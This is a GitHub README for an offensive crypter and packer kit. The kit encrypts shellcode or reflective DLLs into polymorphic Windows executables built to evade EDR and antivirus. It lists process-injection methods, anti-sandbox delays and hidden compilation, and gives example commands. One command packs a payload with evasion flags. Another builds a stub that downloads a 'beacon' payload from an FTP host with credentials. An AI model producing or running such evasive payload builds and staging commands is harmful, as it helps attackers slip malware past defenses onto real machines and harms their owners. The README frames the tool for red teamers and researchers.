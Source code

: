 # POCK - Polymorphic Obfuscation and Crypter Kit

**“UnPACKable payloads start here!”**  
A customizable binary packer designed for red teamers, malware researchers, and offensive security professionals.

---

## Overview

POCK (Polymorphic Obfuscation and Crypter Kit) is a modular crypter and packer framework that encrypts and embeds raw payloads into stealthy Windows executables. It is built to help offensive operators evade endpoint detection and response (EDR) and antivirus solutions by implementing polymorphic stubs, anti-sandbox logic, and multiple injection methods.

POCK supports:

- Payload types: raw shellcode (`.bin`) or reflective DLLs (`.dll`)
- Multiple encryption options: AES or XOR
- Staging payloads externally via FTP or embedding them directly
- Injection techniques such as:
  - Asynchronous Procedure Call (APC)
  - Early Bird APC
  - Fiber-based execution
- Anti-analysis features: entropy delay, Fibonacci and factorial loops, sleep timer
- Stub polymorphism via Jinja2-based template randomization
- Hidden compilation for stealth or console mode for debugging

---

## Features

- AES and XOR encryption support
- Jinja2-powered polymorphic stub generation
- Built-in anti-analysis and sandbox evasion logic
- Supports both embedded and staged payloads
- Multiple code injection options
- Configurable execution delays
- Generates fully native Windows executables using `mingw-w64`

---

## Requirements

- Python 3.8 or higher
- [pycryptodome](https://pypi.org/project/pycryptodome/)
- [jinja2](https://pypi.org/project/Jinja2/)
- MinGW-w64 cross-compiler (e.g. `x86_64-w64-mingw32-gcc`)

### Install Python dependencies:

```bash
pip install -r requirements.txt
```
Usage:
```bash
python3 POCK.py -i <input_file> -o <output_file> -e <encryption> -k <key> -t <payload_type> [options]
```

---

##Required Arguments

-i, --input
##Path to raw shellcode (.bin) or DLL (.dll) file

-o, --output
##Name of the compiled output executable

-e, --encryption
##Encryption method to use: aes or xor

-k, --key
##Key to encrypt the payload

-t, --type
##Payload type: shellcode or dll

###Optional Arguments
--inject <method>
##Injection method: apc, earlybird, fiber

--url <ftp_url>
##FTP URL for remote payload staging

--ftp-user <username>
##FTP username for authentication

--ftp-pass <password>
##FTP password for authentication

--entropy
##Add entropy-based execution delay

--fibonacci
##Add Fibonacci loop delay

--factorial
##Add factorial computation delay

--sleep <seconds>
##Sleep for specified seconds before executing

--hide
##Compile stub as a hidden (GUI) executable instead of console

##Example Commands
```bash
Generating an embedded payload
python3 POCK.py -i payload.bin -o packed.exe -e aes -k <AES Key> -t shellcode --inject apc --entropy --fibonacci --sleep 15 --hide

Generating a staged stub
python3 POCK.py -i beacon.dll -o agent.exe -e xor -k RedTeamFTW -t dll --url ftp://192.168.50.219/payload.bin --ftp-user user --ftp-pass pass --inject fiber --hide
```
